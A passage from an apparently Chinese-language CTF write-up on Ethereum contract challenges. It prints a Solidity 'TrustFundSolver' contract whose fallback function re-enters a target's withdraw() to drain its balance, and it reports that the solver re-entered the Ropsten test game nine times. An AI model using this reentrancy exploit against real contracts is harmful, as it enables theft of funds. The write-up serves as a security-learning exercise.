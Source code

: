 ```
pragma solidity 0.4.24;

contract TrustFundSolver {
    address public owner;
    address public target;
    constructor(address t) public {
        owner = msg.sender;
        target = t;
    }
    function() external payable {
        uint256 remain = msg.sender.balance;
        if (remain == 0) {
            return;
        }
        I(target).withdraw();
    }
    function play() external {
        I(target).withdraw();
    }
    function withdraw() external {
        owner.transfer(this.balance);
    }
}

interface I {
     function withdraw() external;
}

```

可以清楚地在我们solver的[play交易](https://ropsten.etherscan.io/tx/0x8d6c72bf58fb48ec7ed6637fb1e0466c1024f0add0100949b247c26ba80cf252)中看到整个过程，确实除了第一次调用外，重入了游戏合约9次，从而将所有测试币一次性提走。

![img](/assets/img/2021-06-28/reenter.png)

# Game 8: Heads or Tails
